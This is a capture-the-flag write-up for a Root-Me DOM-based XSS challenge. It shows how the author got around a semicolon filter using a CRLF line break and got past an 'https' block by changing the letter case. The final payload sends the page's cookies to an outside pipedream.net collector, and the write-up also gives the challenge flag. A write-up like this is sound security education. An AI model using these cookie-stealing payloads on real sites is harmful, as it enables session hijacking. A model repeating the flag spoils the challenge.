 # XSS DOM Based - Filters Bypass

In this chall, you won't have to guess the correct number because you will be rewarded nothing. So we will find a way to reward ourselves :D

![anh1](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Filter1.png)

I tried to close the single quotes first, then used `;` to end the current javascript command and used alert(1) to check if the page is vulnerable to XSS or not. I entered `a'; alert(1); // ` into the input field.

Then nothing happened so I checked for the sources

![anh2](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Filter2.png)

As you can see, the `;` is deleted so I couldn't end the current command and `alert(1)` wouldn't be triggered. Then I tried using `\r\n` and this page seems to be vulnerable.

![anh3](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Filter3.png)

Next, I tried to send the cookie to my current server on requestbin. But when I entered `document.location=”https:// eovasfu0mdllq4f.m.pipedream.net”;`, the page told me that

![anh4](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Filter4.png)

I changed `https` to `hTTps` to check if the XSS is triggered or not. Fortunately, the challenge doesn't check for case intensitive. So I was able to solve this challenge using the payload below:

```javascript

a'%0D%0Adocument.location='hTTps://eovasfu0mdllq4f.m.pipedream.net/?'.concat(document.cookie)//

```

I used this payload on the main page, then I grabbed the url and sent it to admin. Now I think you already know what will happen next :D

![anh5](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Filter5.png)

Flag is `rootme{FilTERS_ByPass_DOm_BASEd_XSS}`

![anh6](https://raw.githubusercontent.com/quochuyy10217/MyCTFWriteups/main/rootme/img_src/XSS_DOM_Filter6.png)